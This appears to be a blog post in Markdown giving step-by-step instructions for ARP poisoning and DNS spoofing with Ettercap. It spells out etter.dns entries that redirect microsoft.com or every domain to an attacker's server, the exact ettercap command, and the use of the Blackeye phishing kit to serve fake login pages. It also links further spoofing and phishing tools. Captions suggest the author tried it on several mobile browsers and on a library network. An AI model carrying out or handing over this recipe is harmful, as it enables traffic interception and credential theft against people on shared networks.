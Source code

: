 ```yaml
---
title: 'Penetration Testing : 流量捕获之DNS缓存攻击'
date: 2019-11-25 22:25:01
tags: [Penetration Testing,Kali Linux,Python]
---
```



### intro
```python
# author: huangyuhui
# date: november 27,2019
# envir: 5.2.0-kali2
# desc: the detailed steps about the dns attack
# repo address: https://github.com/yubuntu0109/penetration-testing-learning
# tested on the mobile browser: [vivo],[xiaomi],[huawei],[quark],[firefox],[qq],[360],[sogou],,
```


### GUI: the detailed steps about the dns attack
```python
'''
[step one]: customize the dns configuration infos of Ettercap
>>> vim ./etc/ettercap/etter.dns
----------------------------------------------------------------------------------------------
eg: modify the dns configuration infos as follow,let it redirect to specified service address
==============================================================================================
microsoft.com			A		xxx.xxx.xxx.xxx (your service ip)
.*microsoft.com			A		xxx.xxx.xxx.xxx
www.microsoft.com		PRT  	xxx.xxx.xxx.xxx
----------------------------------------------------------------------------------------------
ex: add the new configuration infos as follow if you want intercept all of websites
==============================================================================================
*		A		xxx.xxx.xxx.xxx (your service ip)
*		PTR 	xxx.xxx.xxx.xxx
----------------------------------------------------------------------------------------------


[step two]: MitM Attack(arp poisoning) and DNS spoofing by the penetration testing tool of Ettercap
>>> ettercap -G 


[step three]: customize the index page and start the local server of Apache
>>> vim ./var/www/html/index.html
>>> /etc/init.d/apache2 start	# or use this command >>> service apache2 start

(recommend)use the penetration testing tool of Blackeye to replace the service of Apache or others..
>>> https://github.com/YUbuntu0109/blackeye
--------------------------------------------------------------------------------------------------------
becaues you have modified the dns configuraiton infos above,so please test on this option: [16]Microsoft
--------------------------------------------------------------------------------------------------------


[step four]: check the specified service ip with this command
>>> nslookup www.microsoft.com
'''
```


### (RECOMMEND)COMMAND: the detailed steps about the dns attack
```python
'''
[step one]: it's same as the first step above
>>> vim ./etc/ettercap/etter.dns


[step two]: MitM attack(arp poisoning) and dns spoofing by the penetration testing tool of Ettercap
the ip address between the target and the gateway is unordered
>>> ettercap -i <iface> -Tq -M arp:remote -P dns_spoof /[target1]// /[target2]//


[step three]: it's same as the third step above and the penetration tool of Blackeye is recommended
>>> git clone https://github.com/YUbuntu0109/blackeye


[step four]: it's same as the fourth step above
>>> nslookup www.sitename.com
'''
```


### moments
*a simple dns spoofing with phishing~*

![ ](Penetration-Testing-流量捕获之DNS缓存攻击/penetration-testing_moments_dns-spoofing-with-phishing.png)

*😅 a simple penetration testing in library which is so embarrassing . . .*

![ ](Penetration-Testing-流量捕获之DNS缓存攻击/penetration-testing_moments_dns-spoofing-in-library.png)


### recommended tools
* Ettercap: https://github.com/Ettercap/ettercap
* Blackeye: https://github.com/thelinuxchoice/blackeye
* DNS spoofer: https://github.com/DanMcInerney/dnsspoof
* Simple Python DNS Spoofer With Scapy : https://github.com/Sha2ow-M4st3r/DNSpoofer
